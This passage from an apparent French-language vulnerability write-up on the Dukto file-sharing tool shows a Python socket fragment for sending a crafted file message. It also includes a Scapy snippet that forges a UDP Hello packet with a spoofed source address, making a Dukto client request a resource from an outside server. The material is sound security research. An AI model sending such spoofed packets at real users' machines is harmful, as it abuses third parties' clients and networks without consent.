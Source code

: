 ```python
msg = file_name + "\x00"
msg += struct.pack("Q", len(content))
msg += content

sock.send(msg)
sock.close()
```

Les autres vulnérabilités trouvées sont liées à l'emploi du protocole UDP pour les *Hello* et *Goodbye*.  

Par exemple en lisant le fichier source `buddylistitemmodel.cpp` on s’aperçoit que lors de la découverte d'un nouvel hôte, *Dukto* parse les informations du message *Hello* (l'adresse IP et le port) et lance une requête HTTP sur le numéro de port incrémenté de 1 pour demander la ressource `/dukto/avatar`.  

Il est très facile de spoofer l'adresse IP source sous UDP et on peut par exemple faire en sorte qu'un client *Dukto* aille demander le fichier `/dukto/avatar` au serveur de Google :  

Démonstration avec *Scapy* :

```python
from scapy.all import *
pkt=Ether()/IP(src="216.58.211.67", dst="192.168.1.22")/UDP(sport=4644, dport=4644)/"\x05\x4f\x00H3llo at Bidule (machin)"
sendp(pkt)
```

![Dukto sending an HTTP request to Google](/assets/img/dukto_http.png)
